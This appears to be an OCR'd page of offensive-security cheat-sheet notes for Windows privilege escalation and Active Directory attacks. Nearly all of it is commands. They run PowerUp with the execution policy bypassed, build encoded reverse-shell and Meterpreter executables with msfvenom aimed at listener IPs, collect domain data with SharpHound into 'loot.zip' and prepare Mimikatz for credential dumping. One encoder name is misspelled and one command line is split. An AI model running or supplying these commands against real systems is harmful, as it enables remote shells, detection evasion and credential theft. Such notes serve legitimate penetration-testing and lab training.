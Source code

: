 ```
powershell.exe -exec bypass -Command “& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}”
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.27.83 LPORT=4443 -e x86/sjikata -
f exe -o Advanced.exe
```

Encoded payload

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai
LHOST=10.11.9.134 LPORT=9091 -f exe -o bruce.exe
```

## Sherlock PowerShell script exploit suggester

Edit Sherlock.ps1 file and add line at the end.

```
...
Find-AllVulns
```

## BloodHound

```
neo4j console
bloodhound
```

```
powershell -ep bypass

.\Downloads\SharpHound.ps1

Invoke-Bloodhound -CollectionMethod All -Domain DOMAIN.local -ZipFileName loot.zip

OR (alternative)

SharpHound.exe
```

Upload zip file into bloodhound.

## Mimikatz

Load mimikatz.

```
privilege::debug
```

This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly.

